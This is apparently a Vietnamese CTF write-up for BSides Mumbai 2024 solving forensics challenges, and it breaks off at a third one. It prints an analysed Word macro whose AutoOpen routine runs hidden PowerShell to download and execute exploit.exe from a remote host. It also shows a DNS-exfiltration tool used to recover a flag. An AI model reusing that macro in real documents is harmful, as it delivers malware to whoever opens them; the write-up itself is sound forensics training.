


# Bsides Mumbai CTF 2024
### I.ManyDoc.

- Chall này cho mình các file này, thấy 2 file `.docx` thì mình xài `olevba` để check lun.
```
$ olevba message.docx 
olevba 0.60.2dev5 on Python 3.11.8 - http://decalage.info/python/oletools
===============================================================================
FILE: message.docx
Type: OpenXML
WARNING  For now, VBA stomping cannot be detected for files in memory
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls
in file: word/vbaProject.bin - OLE stream: 'VBA/ThisDocument'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
(empty macro)
-------------------------------------------------------------------------------
VBA MACRO NewMacros.bas 
in file: word/vbaProject.bin - OLE stream: 'VBA/NewMacros'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sub doc1()
'
' doc1 Macro
'
'

End Sub

Sub Exec()
    Dim shell
    Set shell = CreateObject("WScript.Shell")

    Dim scriptName
    scriptName = "exploit.exe"

    Dim scriptPath
    scriptPath = shell.CurrentDirectory & "\" & scriptName

    Dim command
    command = "powershell -ExecutionPolicy Bypass -Command ""$IZWGCZYK = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('QlNpZGVzTXVtYmFpe200bGQwY19yM3YxczNkfQ==')); $webClient = New-Object System.Net.WebClient; $sourceUrl = 'http://192.168.186.130:8000/" & scriptName & "'; $destinationPath = '" & scriptPath & "'; $webClient.DownloadFile($sourceUrl, $destinationPath); & '" & scriptPath & "'"""

    shell.Run command, 0, True

End Sub

Sub AutoOpen()
    Exec
End Sub

+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |AutoOpen            |Runs when the Word document is opened        |
|Suspicious|shell               |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|WScript.Shell       |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|Run                 |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|powershell          |May run PowerShell commands                  |
|Suspicious|ExecutionPolicy     |May run PowerShell commands                  |
|Suspicious|command             |May run PowerShell commands                  |
|Suspicious|CreateObject        |May create an OLE object                     |
|Suspicious|New-Object          |May create an OLE object using PowerShell    |
|Suspicious|Net.WebClient       |May download files from the Internet using   |
|          |                    |PowerShell                                   |
|Suspicious|DownloadFile        |May download files from the Internet using   |
|          |                    |PowerShell                                   |
|Suspicious|System              |May run an executable file or a system       |
|          |                    |command on a Mac (if combined with           |
|          |                    |libc.dylib)                                  |
|Suspicious|Exec                |May run an executable file or a system       |
|          |                    |command using Excel 4 Macros (XLM/XLF)       |
|IOC       |http://192.168.186.1|URL                                          |
|          |30:8000/            |                                             |
|IOC       |192.168.186.130     |IPv4 address                                 |
|IOC       |exploit.exe         |Executable file name                         |
+----------+--------------------+---------------------------------------------+
```
- Xem source thì thấy có đoạn base64 `QlNpZGVzTXVtYmFpe200bGQwY19yM3YxczNkfQ==` decode ra thì có flag.

*`FLAG: BSidesMumbai{m4ld0c_r3v1s3d}`*
### II. Find Me.
- Chall này cho mình 1 file `.pcap` xài wireshark thì mình thấy có rất nhiều packet của udp và dns

- Bài này cần sử dụng `packetWhisper` để exrtract data từ các `dns`.
```
$ ./packetWhisper.py 
  _____           _        ___          ___     _
 |  __ \         | |      | \ \        / / |   (_)
 | |__) |_ _  ___| | _____| |\ \  /\  / /| |__  _ ___ _ __   ___ _ __  
 |  ___/ _` |/ __| |/ / _ \ __\ \/  \/ / | '_ \| / __| '_ \ / _ \ '__| 
 | |  | (_| | (__|   <  __/ |_ \  /\  /  | | | | \__ \ |_) |  __/ |    
 |_|   \__,_|\___|_|\_\___|\__| \/  \/   |_| |_|_|___/ .__/ \___|_|    
                                                     | |
                                                     |_|

           Exfiltrate / Transfer Any Filetype in Plain Sight
                                  via
                 Text-Based Steganograhy & DNS Queries
"SHHHHHHHHHH!"
        \                Written by TryCatchHCF
         \           https://github.com/TryCatchHCF
  (\~---.
  /   (\-`-/)
 (      ' '  )        data.xls accounts.txt \     Series of 
  \ (  \_Y_/\        device.cfg  backup.zip  -->  harmless-looking 
   ""\ \___//         LoadMe.war file.doc   /     DNS queries 
      `w   "

====  PacketWhisper Main Menu  ====

1) Transmit File via DNS
2) Extract File from PCAP
3) Test DNS Access
4) Help / About
5) Exit

Selection: 2

====  Extract & Decloakify a Cloaked File  ====

IMPORTANT: Be sure the file is actually in PCAP format.
If you used Wireshark to capture the packets, there's
a chance it was saved in 'PCAP-like' format, which won't
here. If you have problems, be sure that tcpdump/WinDump
can read it manually:   tcpdump -r myfile.pcap

Enter PCAP filename: '/mnt/d/FORENSICS/challenge/BSM_CTF/Find Me/fiNd_mE.pcapng'

What OS are you currently running on?

1) Linux/Unix/MacOS
2) Windows

Select OS [1 or 2]: 1
reading from file /mnt/d/FORENSICS/challenge/BSM_CTF/Find Me/fiNd_mE.pcapng, link-type EN10MB (Ethernet), snapshot length 262144

=======  Select PacketWhisper Cipher Used For Transfer  =======

1) Random Subdomain FQDNs  (example: d1z2mqljlzjs58.cloudfront.net)
2) Unique Repeating FQDNs  (example: John.Whorfin.yoyodyne.com)
3) [DISABLED] Common Website FQDNs    (example: www.youtube.com)

Selection: 1

Ciphers:

1 - akstat_io_prefixes
2 - cdn_optimizely_prefixes
3 - cloudfront_prefixes
4 - log_optimizely_prefixes

Enter cipher #: 3

Extracting payload from PCAP using cipher: ciphers/subdomain_randomizer_scripts/cloudfront_prefixes

Save decloaked data to filename (default: 'decloaked.file'): 

File 'cloaked.payload' decloaked and saved to 'decloaked.file'

Press return to continue...
```
- Sử dụng `cloudfront` để extract ra thì ta sẽ được dữ liệu trả ra.
```
$ cat decloaked.file 
BSMumbai{p4ck3ts_a1n7_wh1sp3ring}
```

*`FLAG: BSMumbai{p4ck3ts_a1n7_wh1sp3ring}`*
### III. Rabbit Holes.
- Bài này cho ta 1 file `.mem` xài strings phát ra lun flag